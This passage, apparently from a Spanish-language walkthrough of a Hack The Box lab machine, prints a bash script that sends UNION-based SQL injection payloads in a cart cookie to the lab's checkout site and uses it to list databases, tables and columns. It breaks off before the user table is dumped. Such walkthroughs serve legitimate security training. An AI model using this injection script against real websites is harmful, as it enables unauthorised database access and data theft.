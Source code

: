 ```bash
#!/bin/bash

[ -z "$SELECT" ] && echo "SELECT=* FROM=* WHERE=* $0" && exit

payload="' UNION SELECT '',$SELECT,''"

[ -z "$FROM" ] || payload="$payload FROM $FROM"
[ -z "$WHERE" ] || payload="$payload WHERE $WHERE" 

echo $payload

payload=$(./makepayload.py "$payload#")

curl -k -s "https://checkout.shared.htb" -b "custom_cart=$payload" |
	egrep '</?td>' |
	head -1 |
	sed -E 's/^ *<td>(.*)<\/td>$/\1/'
```

Entonces podemos ver si podemos obtener los nombres de las bases de datos disponibles. Recuerde que esta base de datos es probablemente MySQL porque el # comentario está funcionando.

```bash
chmod +x sqli.sh
SELECT="group_concat(schema_name)"   \
FROM="information_schema.schemata"   \
	./sqli.sh
```

```bash
information_schema,checkout
```

Hay una base de datos llamada checkout que deberíamos explorar. Busquemos los nombres de sus tablas.

```bash
SELECT="group_concat(table_name)"   \
FROM="information_schema.tables"    \
WHERE="table_schema='checkout'"     \
	./sqli.sh
```

```bash
user,product
```
La tabla de usuarios parece interesante. Busquemos los nombres de las columnas y volquemos el contenido de la tabla.

```bash
SELECT="group_concat(column_name)"   \
FROM="information_schema.columns"    \
WHERE="table_name='user'"            \
	./sqli.sh
```
